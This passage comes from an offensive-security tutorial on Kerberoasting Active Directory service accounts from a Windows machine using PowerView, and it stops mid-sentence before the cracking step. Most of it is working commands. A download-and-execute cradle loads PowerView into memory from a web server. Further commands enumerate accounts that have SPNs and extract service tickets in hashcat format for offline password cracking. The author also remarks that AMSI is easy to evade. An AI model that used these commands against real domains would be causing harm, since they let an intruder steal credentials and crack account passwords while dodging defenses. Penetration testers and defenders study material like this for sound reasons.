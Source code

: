 Kerberoasting involves requesting a Kerb Service Ticket (TGS) from a Windows Domain Machine or Kali Box using something like **GetUserSPN’s.py**. The problem with **TGS** is once the the **DC** looks up the target **SPN** it encrypts the **TGS** with the **NTLM Password Hash** of the targeted user account.

### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-3)From Windows

There are numerous ways to enumerate service accounts and find Kerberoast targets so I will cover a few below, both from Windows Machines & Linux Machines.

#### [(L)](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html#header-4)Powerview

The First will be PowerView.ps1 - If you have not heard of PowerView.ps1 by now and you are researching Kerberos attacks then you need to go back a little…

PowerView is an insanely powerful **.ps1** created by Harmj0y which makes Enumerating & Exploiting AD Environments with PowerShell extremely easy. Even though Powershell is extremely monitored in this day and age by defenders it is still highly useful.

`https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1`

**Enumeration**
First let’s import `PowerView.ps1` into Memory with

	IEX (New-Object Net.WebClient).DownloadString('http://werbserver:80/PowerView.ps1')

Of course `AMSI` will probably catch this on `WIN10 1803` but I will leave evasion upto yourselfs. There are numerous bypasses in my `h4cks` Repo and numerous out there online. `AMSI` is just string detection so it’s easy to slip past.

Now with PowerView in memory on a **Domain-Joined Machine** we can simply run

	Get-DomainUser -SPN

The `Get-DomainUser` function also supports the `-Credential` switch which allows you to pass a seperate credential through. For ex.

	$secpasswd = ConvertTo-SecureString 'pass' -AsPlainText -Force
	$cred = New-Object System.Management.Automation.PSCredential('m0chan\user', $secpasswd)

	Get-DomainUser -SPN -Credential $cred

That’s it! It will return all users with SPN Value set.
**Exploit**

Now with the target service accounts in our scopes we can actually request a ticket for cracking which couldn’t be easier with `PowerView.ps1`

Just simply run the below command

	Get-DomainSPNTicket -SPN <spn> -OutputFormat hashcat -Credential $cred

This will return a SPN Ticket encrypted with the `NTLM` hash of the target account. Bare in mind here I choose Hashcat over John as I use a Nvidia cracking rig but works way way better with Hashcat.

Now we can simply crack with something like
